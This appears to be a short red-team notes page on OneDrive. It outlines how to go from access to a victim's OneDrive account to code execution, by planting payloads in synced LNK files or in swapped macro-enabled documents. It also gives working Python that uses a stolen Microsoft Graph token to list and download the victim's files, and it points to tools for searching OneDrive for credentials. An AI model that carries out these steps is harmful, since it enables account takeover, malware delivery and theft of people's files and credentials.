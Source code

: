 ```yaml
---
title: OneDrive
---
```


> Under construction 🚧

OneDrive access to code execution on a computer:

- login to victim account, check last edited office documents
- `~/Desktop` is often synced with OneDrive, e.g. embed payload in LNK file
- otherwise replace documents with macro-enabled format and embed payload

Download files from OneDrive with Python ([source](https://twitter.com/OutflankNL/status/1623665284744679424/)).

~~~ python
# pip3 install --user o365
from O365 import MSOffice365Protocol, MSGraphProtocol, EnvTokenBackend, Account
import os

os.environ['MSGRAPHTOKEN'] = '{"access_token":"eyJ0..."}'

credentials = ('id', 'secret')
msgraph = Account(credentials, token_backend=EnvTokenBackend('MSGRAPHTOKEN'), protocol=MSGraphProtocol())

# list files in OneDrive
drive = msgraph.storage().get_default_drive()
list(drive.get_items())

# download file
drive.get_item_by_path('/doucment.docx').download('downloads')
~~~

Search for credentials in OneDrive with [TeamFiltration](https://github.com/Flangvik/TeamFiltration).

Untested tools:

- [Token Farm](https://github.com/rootsecdev/Azure-Red-Team/tree/master/Tokens), python scripts to access Outlook emails and OneDrive
